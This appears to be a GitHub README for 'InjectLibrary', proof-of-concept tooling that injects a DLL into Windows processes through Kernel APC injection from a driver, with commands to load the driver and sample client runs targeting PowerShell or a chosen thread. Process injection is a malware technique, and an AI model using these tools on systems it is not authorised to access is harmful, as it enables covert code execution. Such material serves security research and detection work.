

# InjectLibrary

PoCs to perform DLL injection with Kernel APC Injection method.

## Installation

```
PS C:\> sc.exe create InjectLibrary type= kernel binpath= C:\Dev\InjectLibraryDrv_x64.sys
PS C:\> sc.exe start InjectLibrary
```

## Client Program Usage

Client performs to inject DLL to a specified process.

```
PS C:\Dev> .\InjectLibraryClient.exe -h

InjectLibraryClient - Client for InjectLibraryDrv.

Usage: InjectLibraryClient.exe [Options]

        -h, --help    : Displays this help message.
        -l, --library : Specifies a DLL file to inject.
        -c, --command : Specifies a command to create injection testing process.
        -t, --tid     : Specifies a target thread ID in decimal format.

[!] -l option is required.
```

DLL path to inject must be specified with `-l` option.
To test this method quickly, recommend to set command to execute with `-c` option.
It performs EarlyBird style DLL injection from kernelmode:

```
PS C:\Dev> .\InjectLibraryClient.exe -l C:\Dev\InjectLib_x64.dll -c powershell

[>] Trying to create test process.
    [*] Command : powershell
[+] Got process for testing DLL injection (PID: 3580).
[*] Injection target information:
    [*] Thread ID    : 5376
    [*] Library Path : C:\Dev\InjectLib_x64.dll
[>] Sending a query to \??\InjectLibrary.
[+] Got a handle to \??\InjectLibrary (Handle = 0x2D8)
[+] DLL injection would be successful.
[*] Done.
```

If you want to inject DLL to existing thread, set thread ID with `-t` option.
To check thread ID, we can use [Sysinternals Suite Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer) or [System Informer](https://github.com/winsiderss/systeminformer).
The challenge of this method is hard to know what thread is valid for injection, so injection would not be triggered for invalid thread:

```
PS C:\Dev> .\InjectLibraryClient.exe -l C:\Dev\InjectLib_x64.dll -t 3408

[*] Injection target information:
    [*] Thread ID    : 3408
    [*] Library Path : C:\Dev\InjectLib_x64.dll
[>] Sending a query to \??\InjectLibrary.
[+] Got a handle to \??\InjectLibrary (Handle = 0xC4)
[+] DLL injection would be successful.
[*] Done.
```

